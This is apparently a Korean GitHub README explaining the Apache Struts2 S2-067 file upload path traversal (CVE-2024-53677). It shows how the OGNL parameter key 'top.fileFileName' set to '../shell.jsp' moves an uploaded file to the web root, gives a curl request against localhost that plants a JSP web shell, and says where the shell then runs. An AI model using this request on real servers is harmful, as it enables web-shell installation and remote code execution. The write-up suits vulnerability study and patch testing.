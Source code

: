## Struts2 S2-067 Upload Path Traversal (CVE-2024-53677)

**Apache Strtus2**는 Java EE 웹 애플리케이션 개발을 위해 널리 사용되는 오픈소스 프레임워크입니다. 
해당 프레임워크는 Java Servlet API를 활장해 개발자가 MVC(Model-View-Controller) 아키텍처를 채택할 수 있도록 지원합니다. 
또한 엔터프라이즈 수준의 웹 애플리케이션을 유지 보수 및 확장이 용이하게 개발할 수 있도록 유틸리티를 제공합니다.

---
### S2-067 개요

S2-067은 기존 **S2-066 취약점의 불완전한 패치로부터 파생된 변종**이다.
S2-066은 대소문자 구분 비교 문제로 인해 업로드된 파일명이 덮어쓰기되거나 디렉토리 경로가 우회되는 문제가 있었으며, S2-067은 **다른 메커니즘(OGNL 표현식 평가)**을 활용해 동일한 공격 효과를 냅니다.
Struts2는 요청 시 모든 파라미터 키를 **OGNL(객체 그래프 내비게이션 언어) 표현식**으로 평가합니다. 이 기능은 과거 여러 번 **OGNL 인젝션에 의한 원격 코드 실행(RCE)** 취약점을 발생시킨 주요 원인이었습니다. Struts2는 키에 대한 엄격한 유효성 검사를 도입했지만, **OGNL 표현식 평가 자체는 여전히 작동 중**입니다.  
S2-067은 이 점을 악용하여 파일 업로드 시 사용자가 전달한 키에 따라 **파일명을 덮어쓰고 디렉터리를 우회하여 웹 루트에 저장**하도록 유도할 수 있습니다.

---
### PoC 핵심

OGNL 표현식을 포함하는 파라미터 키 `top.fileFileName` 을 사용하여 다음과 같이 조작하면: 
top.fileFileName = ../shell.jsp
업로드된 파일이 `/upload/shell.jsp`가 아닌 **웹 루트 경로(`/shell.jsp`)에 저장**됩니다.

### 공격 요청 예시 

curl -X POST http://localhost:8080/index.action   -F "file=@shell.jsp;filename=shell.jsp;type=text/plain"   -F "top.fileFileName=../shell.jsp
해당 공격 요청 예씨에서 핵심 부분은 Struts2가 파라미터 키의 형식을 OGNL 표현식으로 처리하는 것이다. 

---
### 업로드 성공

업로드된 해당 웹쉘은 다음 주소에서 실행할 수 있다.
http://localhost:8080/shell.jsp 













